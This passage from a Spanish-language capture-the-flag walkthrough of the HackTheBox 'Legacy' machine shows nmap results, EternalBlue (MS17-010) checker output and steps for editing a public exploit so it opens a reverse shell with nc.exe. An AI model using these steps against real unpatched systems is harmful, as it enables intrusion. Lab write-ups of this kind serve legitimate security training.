 ```java
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2023-07-04T23:53:50+03:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.17 seconds
```

Visulizamos información interesante de los puertos escaneados y que el equipo corresponde a una maquina `Windows XP`:

| Puerto | Servicio | Versión |
| ------ | -------- | --------|
| 135     | RPC     |   Microsoft Windows RPC |
| 139  | LDAP     | Microsoft Windows netbios-ssn |
| 445   |  SMB   |  Windows XP microsoft-ds |


## EXPLOTACION [#](#explotación) {#explotación}


Como vemos que la maquina corresponde `Windows XP`, podemos explotar el `eternal blue`, asi que vamos a explotarlo usando el exploit de github de warawit.


* [https://github.com/worawit/MS17-010](https://github.com/worawit/MS17-010)

Descargamos al repositorio y ejecutamos el `checker.py`, para encontrar `named pipes` vulnerables.

> Named Pipe: Una named pipe es un canal de comunicaciones half-duplex o full-duplex entre un servidor pipe y uno o más clientes. Todas las instancias de una named pipe comparten el mismo nombre, pero cada instancia tiene sus propios búfers y handles y tienen conductos separados para la comunicación cliente-servidor.


Ejectamos el `checker.py` el cual nos reporta dos `named pipes` de los que podemos abusar.


```bash
❯ python2 checker.py 10.10.10.4
Target OS: Windows 5.1
The target is not patched

=== Testing named pipes ===
spoolss: Ok (32 bit)
samr: STATUS_ACCESS_DENIED
netlogon: STATUS_ACCESS_DENIED
lsarpc: STATUS_ACCESS_DENIED
browser: Ok (32 bit)
```

Ahora nos abriremos el `zzz_exploit.py`, para modificar la instrucción que queremos ejecutar al lanzar el exploit, en la que nos montaremos un recurso compartido en nuestra maquina donde alojaremos el `nc.exe` el cual se ejecutara otorgandonos una conexión a nuestra maquina. Esto descomentado la opción `service_exec` y comentaremos las lineas previas.
